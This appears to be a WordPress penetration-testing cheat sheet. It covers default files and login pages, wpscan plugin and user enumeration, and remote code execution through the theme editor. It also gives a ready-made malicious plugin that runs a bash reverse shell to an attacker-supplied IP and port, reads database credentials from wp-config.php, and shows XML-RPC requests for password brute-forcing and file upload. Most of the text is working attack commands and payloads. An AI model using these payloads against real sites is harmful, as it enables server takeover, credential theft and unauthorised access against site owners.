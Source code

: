 # Wordpress

## Standard pages and folders

#### License files

* `/license.txt`
* `/readme.html`

#### Login pages

* `/wp-admin/login.php`
* `/wp-admin/wp-login.php`
* `/login.php`
* `/wp-login.php`

#### Resource folders

* `wp-content/uploads/` resources folder
* `wp-content/themes/` themes folder
* `wp-includes/` plugins, scripts and widgets

## Plugin enumeration

Enumeration can be executed with the tool wpscan downloadable [here](https://github.com/wpscanteam/wpscan)

```http
wpscan --update
wpscan --url <host> --enumerate u,p            #list users and installed lugins
wpscan --url <host> --enumerate ap,at,cb,dbe   #bruteforce installed plugins, better results but really
```

## Authenticated RCE

These attacks require access to the administrative console

### Template editor

It is possible to use the template editor to modify a php page.  The best target is the 404 page since it can be triggered easily. If not possible the modified files are usually located under `/wp-content/themes/<theme>/<page>.php`

### Plugin upload functionality

It is possible to upload and execute a reverse shell payload by abusing the install plugin functionality

Create a .php file as follows then zip it and upload the archive. Once uploaded press the "Activate" button

```
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'");
?>
```

## Pivoting

This file contains plain-text username and password for database login. Sometimes these credentials can also be used to authenticate as another user on target machine.

```http
cat <wp folder>/wp-config.php    #local
wget <url>/wp-config.php         #remote
```

## XML-RPC

### Check if active

Send the following request to /xmlrpc.php

```
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

### Credentials bruteforce

You can use `wp.getUsersBlogs`, `wp.getCategories` or `metaWeblog.getUsersBlogs` as value for the `methodName` field

```
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>[user]</value></param>
<param><value>[pass]</value></param>
</params>
</methodCall>
```

### File upload

Requires valid credentials

```
<?xml version='1.0' encoding='utf-8'?>
<methodCall>
	<methodName>wp.uploadFile</methodName>
	<params>
		<param><value><string>1</string></value></param>
		<param><value><string>[user]</string></value></param>
		<param><value><string>[pass]</string></value></param>
		<param>
			<value>
				<struct>
					<member>
						<name>name</name>
						<value><string>[filename]</string></value>
					</member>
					<member>
						<name>type</name>
						<value><string>[mime type]</string></value>
					</member>
					<member>
						<name>bits</name>
						<value><base64><![CDATA[base64 blob here]]></base64></value>
					</member>
				</struct>
			</value>
		</param>
	</params>
</methodCall>
```
